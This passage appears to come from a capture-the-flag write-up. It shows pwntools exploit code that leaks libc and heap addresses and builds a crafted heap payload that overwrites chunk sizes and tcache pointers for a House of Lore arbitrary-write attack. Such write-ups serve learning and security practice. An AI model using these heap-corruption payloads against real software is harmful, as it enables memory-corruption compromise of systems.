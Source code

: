 ![](./index_files/54b015be-9a32-4986-b080-8ff7b6ca1a6c.jpg)

And show **house 1** to get **heap address** and **libc address**.
```
#leak
show_house(1, reading = False)
for i in range(0, 10):
    ru(p64(0xa1))
leaked_libc = u64(p.read(8))
leaked_heap = u64(p.read(8))

libc_base = leaked_libc - 0x1e4ca0
heap_base = leaked_heap - 0x1d60
log.critical("libc_base --> {}".format(hex(libc_base)))
log.critical("heap_base --> {}".format(hex(heap_base)))
```

![](./index_files/383e4bd0-cefc-4320-a3ea-d408f39c1927.png)

### House of Lore
I use house of lore to fuck the tcache struct in heap range to reach the goal of arbitrary writing.
Firstly, I sell the bit chunk and buy the chunk to change the value overlapped by this chunk. This is really usefull in the consistance that we can only upgrade houses for twice.
By modifying chunks, we can make the change the size of the chunk of **house 2** to 0x21 and the size of the chunk of **house 7** to 0x31.
```
sell(1)

buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0x21) + "\xcc" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
          p64(0) + p64(0x21) + "\x55" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
          p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
          p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

#prepare for house of lore
```